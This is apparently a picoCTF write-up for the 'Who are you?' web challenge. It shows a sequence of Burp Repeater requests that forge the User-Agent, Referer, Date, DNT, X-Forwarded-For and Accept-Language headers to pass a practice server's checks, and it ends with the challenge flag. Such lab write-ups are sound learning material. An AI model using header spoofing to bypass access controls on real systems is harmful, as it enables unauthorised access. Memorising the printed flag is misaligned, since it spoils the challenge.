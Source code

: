 # Who are you?

## Problem

Let me in. Let me iiiiiiinnnnnnnnnnnnnnnnnnnn http://mercury.picoctf.net:52362/

Hint: It ain't much, but it's an RFC https://tools.ietf.org/html/rfc2616

## Solution

first, you have to use pico browser to request the site. This time I'm using burpsuite repeater, here's the request:

```
GET / HTTP/1.1
Host: mercury.picoctf.net:52362
Upgrade-Insecure-Requests: 1
User-Agent: picobrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

```

res: I don&#39;t trust users visiting from another site.

now, we have to change the request referer to become the same as the host

```
GET / HTTP/1.1
Host: mercury.picoctf.net:52362
Referer: mercury.picoctf.net:52362
Upgrade-Insecure-Requests: 1
User-Agent: picobrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

```

res: Sorry, this site only worked in 2018.

We have to add Date in the request

```
GET / HTTP/1.1
Host: mercury.picoctf.net:52362
Referer: mercury.picoctf.net:52362
Date: Wed, 01 Aug 2018 00:00:00 UTC
Upgrade-Insecure-Requests: 1
User-Agent: picobrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close


```

res: I don&#39;t trust users who can be tracked.

We have add the DNT (user tracking request preference) to 1

```
GET / HTTP/1.1
Host: mercury.picoctf.net:52362
Referer: mercury.picoctf.net:52362
Date: Wed, 01 Aug 2018 00:00:00 UTC
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: picobrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close


```

res: This website is only for people from Sweden.

We have to add `X-Forwarded-For` to an ip address located in sweden

```
GET / HTTP/1.1
Host: mercury.picoctf.net:52362
Referer: mercury.picoctf.net:52362
Date: Wed, 01 Aug 2018 00:00:00 UTC
DNT: 1
X-Forwarded-For: 192.44.242.19
Upgrade-Insecure-Requests: 1
User-Agent: picobrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close


```

res: You&#39;re in Sweden but you don&#39;t speak Swedish?

We have to change the language by changing `Accept-Language` to `sv-sv`

```
GET / HTTP/1.1
Host: mercury.picoctf.net:52362
Referer: mercury.picoctf.net:52362
Date: Wed, 01 Aug 2018 00:00:00 UTC
DNT: 1
X-Forwarded-For: 192.44.242.19
Upgrade-Insecure-Requests: 1
User-Agent: picobrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: sv-SV,en;q=0.9
Connection: close


```

FLAG: `picoCTF{http_h34d3rs_v3ry_c0Ol_much_w0w_0c0db339}`